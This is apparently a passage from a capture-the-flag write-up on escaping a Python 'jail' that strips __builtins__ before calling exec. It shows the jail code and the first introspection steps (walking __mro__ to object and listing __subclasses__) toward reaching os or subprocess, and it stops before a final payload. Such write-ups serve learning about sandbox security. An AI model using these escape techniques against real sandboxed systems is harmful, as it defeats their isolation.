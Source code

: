 i, e = input, exec
user_input = i('>>> ')

try:
    run_code(user_input)
    # print('ran')
except:
    # print('except')
    pass
{{< /highlight >}}

Really short, it just sets `__builtins__` to `None`,
effectively deleting it.
built-in functions like `open` or `import` is gone.
But, we can recover builtins,
as object types still exists,
like `()`, a tuple,
or '""', a str.

I debug this locally by building the docker,
and modifying `jail.py` to print the result of the payload,
either exception or ran.
I also add `i` to the `e` globals argument,
so I can call it to see what an expression returns.
You can see these with the commented codes above.

I started with getting the `object` class,

```gdscript3
>>> i(().__class__)
i(().__class__)
<class 'tuple'>
ran
>>> i(().__class__.__mro__)                  
i(().__class__.__mro__)
(<class 'tuple'>, <class 'object'>)
ran
```

Got it!
Now, we're using object introspection.
This can be done by calling `__subclasses__()`
to list all loaded classes in memory.
We're looking for `os`, `subprocess`, or `open`.

```gdscript3
>>> i(().__class__.__mro__[1].__subclasses__)
i(().__class__.__mro__[1].__subclasses__)
<built-in method __subclasses__ of type object at 0xffffb2fa8698>
ran
>>> i(().__class__.__mro__[1].__subclasses__())
i(().__class__.__mro__[1].__subclasses__())
```